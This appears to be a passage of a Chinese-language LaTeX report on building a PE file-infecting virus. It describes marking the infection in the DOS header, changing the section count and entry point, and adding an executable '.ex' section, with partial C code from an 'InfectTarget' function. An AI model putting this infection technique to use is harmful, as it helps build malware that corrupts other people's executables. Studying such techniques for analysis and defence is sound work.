 \documentclass[UTF8]{ctexart}
\begin{document}
    \subsubsection{篡改和构造 Headers}

    想要篡改目标程序，我们需要对 Headers 中的信息进行修改，并构造新的 Section Header:

    $\bullet$ 在 Dos Header 中打上感染标记。

    $\bullet$ 修改 File Header 中的节数量。
    
    $\bullet$ 修改 Optional Header 中的程序入口和 SizeOfImage。

    $\bullet$ 构造新的 Section Header，设置 Name, RVA, raw offset, 节属性等等，与后面的插入想对应。

    首先，是获取对齐大小和旧入口，并计算新节的位置和对齐后大小。我们将新节设置在了最后一节的后面:
    
    \begin{lstlisting}[language=C, caption={计算新节的位置和大小}, captionpos=b]
__forceinline int InfectTarget(SCSB *sb, HANDLE hFile) {
    ...
    // Get align
    long fileAlign = pOptHdr->FileAlignment;
    long secAlign = pOptHdr->SectionAlignment; 
    // Set old entry RVA
    long oldVA = pOptHdr->AddressOfEntryPoint;
    long *jmpPoint = (void *)(shellCode + JMP_POINT_OFFSET);
    // *jmpPoint = oldVA; !!! you can't edit readonly mem 
    // Calc New Section raw
    long rawNewSec = pLasSecHdr->PointerToRawData + pLasSecHdr->SizeOfRawData;
    // Calc New Section rva 
    long lasVirSize = pLasSecHdr->Misc.VirtualSize;
    if(lasVirSize % secAlign != 0)
        lasVirSize = (lasVirSize / secAlign + 1) * secAlign;
    long rvaNewSec = pLasSecHdr->VirtualAddress + lasVirSize;
    // Calc New Section raw size
    long raw_size = CODE_SIZE;
    if(CODE_SIZE % fileAlign != 0)
        raw_size = (CODE_SIZE / fileAlign + 1) * fileAlign;
    // Calc New Section image size
    int vir_size = CODE_SIZE;
    if(CODE_SIZE % secAlign != 0)
        vir_size = (CODE_SIZE / secAlign + 1) * secAlign;
    ...
}
    \end{lstlisting}
    
    获取了相关的信息后，就可以构造出新的 Section Header。这里我们统一将新节起名为 .ex。
    
    \begin{lstlisting}[language=C, caption={构造 Section Header}, captionpos=b]
__forceinline int InfectTarget(SCSB *sb, HANDLE hFile) {
    ...
    // Set New Section Header
    char *sName = pNewSecHdr->Name;
    sName[0] = '.', sName[1] = 'e', sName[2] = 'x';
    sName[3] = sName[4] = sName[5] = sName[6] = sName[7] = 0;
    pNewSecHdr->Misc.VirtualSize = CODE_SIZE;
    pNewSecHdr->VirtualAddress = rvaNewSec;
    pNewSecHdr->SizeOfRawData = raw_size;
    pNewSecHdr->PointerToRawData = rawNewSec;
    pNewSecHdr->PointerToRelocations = 0;
    pNewSecHdr->PointerToLinenumbers = 0;
    pNewSecHdr->NumberOfRelocations = 0;
    pNewSecHdr->NumberOfLinenumbers = 0;
    pNewSecHdr->Characteristics = \
        IMAGE_SCN_CNT_CODE | IMAGE_SCN_ALIGN_32BYTES | \ 
        IMAGE_SCN_MEM_EXECUTE | IMAGE_SCN_MEM_READ;
    ...
}
    \end{lstlisting}
\end{document}
